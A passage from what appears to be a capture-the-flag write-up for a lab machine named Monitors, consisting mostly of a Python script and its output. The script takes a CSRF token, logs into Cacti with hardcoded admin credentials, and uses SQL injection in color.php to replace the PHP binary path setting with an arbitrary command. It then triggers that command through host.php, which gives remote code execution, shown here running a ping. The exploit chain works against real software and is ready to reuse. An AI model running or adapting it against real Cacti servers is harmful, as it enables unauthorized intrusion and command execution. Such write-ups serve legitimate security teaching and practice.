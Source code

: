 Because that involved a lot of clicking, I wrote a script to do it. There are four steps:
- Get the CSRF token from the login page
- Login
- SQLi
- Trigger

```

#!/usr/bin/env python3

import re
import requests
import sys
import urllib.parse

payload = urllib.parse.quote(sys.argv[1]) + ';'

sess = requests.Session()
sess.proxies.update({'http': 'http://127.0.0.1:8080'})

# get CSRF
resp = sess.get("http://cacti-admin.monitors.htb/cacti/index.php")
csrf = re.search(r"csrfMagicToken='(.*)'", resp.text).group(1)
print(f"Got CSRF: {csrf}")

# login
resp = sess.post("http://cacti-admin.monitors.htb/cacti/index.php",
        data = {
            '__csrf_magic':   csrf,
            'action':         'login',
            'login_username': 'admin',
            'login_password': 'BestAdministrator@2020!',
            })

print(f"[+] Logged in with cookie: {sess.cookies['Cacti']}")

# upload command
resp = sess.get(f"http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{payload}'+where+name='path_php_binary';--+-")

# trigger
resp = sess.get("http://cacti-admin.monitors.htb/cacti/host.php?action=reindex")

```

Because I do that in a clean session each time, the trigger works each time. For example, changing the `ping` command to `-c 2`:

```

oxdf@parrot$ python3 rce.py 'ping -c 2 10.10.14.7'
[+] Got CSRF: sid:7977064a20e40e119ef70c83e5b45122c75688bb,1619176652;ip:3f4eb84c44fb6969f0c21b517d000b79ddae3d2e,1619176652
[+] Logged in with cookie: h6a28jimfsuaaef2h123csat2o
[+] Uploaded payload
[+] Triggered payload

```
